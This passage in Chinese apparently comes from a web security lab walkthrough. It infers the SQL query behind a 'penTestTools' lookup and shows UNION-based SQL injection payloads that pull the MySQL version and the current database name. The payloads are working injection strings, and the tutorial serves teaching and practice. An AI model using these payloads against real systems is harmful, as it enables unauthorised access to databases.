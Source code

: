 从响应的消息中我们可以看出接收端收到 `toolIDRequested` 参数，从 `penTestTools` 表中接收到 `tool_id`、`tool_name`、`phase_to_use`、`tool_type`、`comment` 这样 5 项内容。

由此我们基本上就可以还原出具体的 SQL 语句了：

```
select tool_id,tool_name,phase_to_use,tool_type,comment from penTestTools where id= '1'; 
```

我们可以看到一共搜索了 5 项内容，我们可以通过 union 来展示更多的信息：

```
1' union select version(),null,null,null,null #
```

![show-mysql-version](../imgs/wm_380.png)

接下来的内容便主要是 SQL 注入类似了。我们还可以使用 `database()` 查看到当前我们使用的数据库：

```
1' union select version(),database(),null,null,null #
```
